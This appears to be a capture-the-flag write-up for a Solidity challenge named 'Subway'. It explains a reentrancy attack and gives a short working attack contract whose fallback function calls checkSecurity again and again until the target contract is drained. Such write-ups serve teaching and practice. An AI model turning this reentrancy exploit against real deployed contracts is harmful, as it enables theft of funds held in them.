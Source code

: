 # Subway

## Solution

To validate this challenge, we need in a first time, to credit our client account and buy a ticket.
After that, we need to add in our contract a call to the function to pass the security in a fallback/ receive function, which allows when we receive some ethers to recall automatically in the same transaction, the same function.
Once the contract is empty, the challenge is validated.

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

import "../../levels/hardChalls/Subway.sol";

contract SubwayAttack {

    Subway originalContract;

    constructor(address payable _originalContract) public {
        originalContract = Subway(_originalContract);
    }

    function exploit() public payable {
        require (msg.value == 1 ether);
        address(originalContract).call.value(1 ether)(abi.encodeWithSignature("credit()"));
        originalContract.buyTickets(1);
        originalContract.checkSecurity();
    }

    fallback() external payable {
        originalContract.checkSecurity();
    }

}
```